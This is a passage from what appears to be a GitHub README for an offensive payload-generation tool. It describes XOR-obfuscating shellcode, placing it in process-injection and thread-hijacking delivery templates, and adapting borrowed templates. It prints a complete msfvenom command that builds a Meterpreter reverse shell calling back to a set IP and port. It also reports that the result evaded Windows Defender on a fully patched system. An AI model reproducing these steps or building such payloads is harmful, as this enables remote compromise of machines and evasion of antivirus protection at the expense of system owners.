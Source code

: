 For the XOR method, a key is required with which to XOR the input file which is passed on the command line.

These code snippets and placed in the ShellcodeTemplate which will then output your modified code ready to pass to the delivery template.

The modified code is placed in the delivery template along with the instructions from `decrypt.txt` which is then compiled and your payload generated. You can create a template that uses syscalls for example, package it with DInvoke and Fody, change the process you inject into, change the entire delivery method from process injection for example.

You have complete freedom to create new delivery templates and new payload obfuscation methods 

# Templates

To show how easy it is to modify templates, I borrowed the templates from pwndizzle (https://github.com/pwndizzle/c-sharp-memory-injection). 

Modifications took less than a minute : 

1. Download existing template to its own folder, rename it to template and add the payload.csproj to the folder. 9 times out of 10 you can just copy an existing payload.csproj from one of the exiting templates, however if your delivery template has sopecifc requirements such as `System.EnterpriseServices` then some configuration will be required. The folder name will become the parameter you pass via -template

![image](https://user-images.githubusercontent.com/21687763/130445515-a0ffcbe4-eca5-4a32-8d75-18e3002a3533.png)

2. Open the template file and locate where current shellcode is stored : 

![image](https://user-images.githubusercontent.com/21687763/130443791-5641840b-152d-4c1d-a42d-16fab749fe78.png)

3. Note that in this case the shellcode is stored in a variable called `payload`
4. Search and replace `payload` with `buf` (please see notes below)
5. Delete current payload
6. Add SHELLCODEHERE and DECRYPTHERE

![image](https://user-images.githubusercontent.com/21687763/130444100-d9a1bd8c-35a4-4146-a76f-4591d9cd1d5f.png)


That's it! Now compile it remembering to use -template followed by the folder name you installed the new template into. I used the output from `c:\metasploit-framework\bin\msfvenom.bat -p windows/x64/meterpreter/reverse_tcp -f csharp LPORT=4444 LHOST=192.168.1.84 -o meterpreter.cs`

Now you have to understand what your delivery template is doing, and it's requirements. For example the Thread_hijack takes a command line parameter for the process you wish to inject into - I used notepad in this example. Let's see how it gets on with a fully patched and upto date Windows 10 with Defender : 

![image](https://user-images.githubusercontent.com/21687763/130779484-bf024b91-0665-43ba-8fd6-1f3ad929b5cc.png)

Perfect!

You can extend the existing templates or add your own in their own folder to include other defensive measures if you want.
